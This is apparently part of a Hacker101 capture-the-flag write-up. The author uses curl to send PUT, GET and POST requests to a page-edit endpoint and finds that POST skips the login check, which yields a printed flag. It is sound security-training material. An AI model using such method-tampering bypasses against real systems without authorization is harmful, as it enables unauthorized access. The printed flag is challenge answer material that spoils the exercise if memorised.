 ### Exploitation

Using `curl`, I systematically tested each HTTP method:

#### PUT Request
```bash
curl -X PUT https://4eaf579a76255142ee4a5e79d0455be4.ctf.hacker101.com/page/edit/2
```

**Response:**
```html
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```

**Analysis:** The server explicitly rejects PUT requests with a 405 status code, indicating this method is not supported for this endpoint.

#### GET Request
```bash
curl -X GET https://4eaf579a76255142ee4a5e79d0455be4.ctf.hacker101.com/page/edit/2
```

**Response:**
```html
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
```

**Analysis:** GET requests trigger the authentication mechanism, redirecting unauthenticated users to the login page.

#### POST Request
```bash
curl -X POST https://4eaf579a76255142ee4a5e79d0455be4.ctf.hacker101.com/page/edit/2
```

**Response:**
```
^FLAG^9973127ac2dc004f7523694acc1c46172bc942c515cec014943d5f69773ce62e$FLAG$
```

**Analysis:** The POST request bypassed the authentication check! This suggests the application only validates authentication for GET requests but not for POST requests to the same endpoint.

### 🏁 First Flag Captured
```
^FLAG^9973127ac2dc004f7523694acc1c46172bc942c515cec014943d5f69773ce62e$FLAG$
```
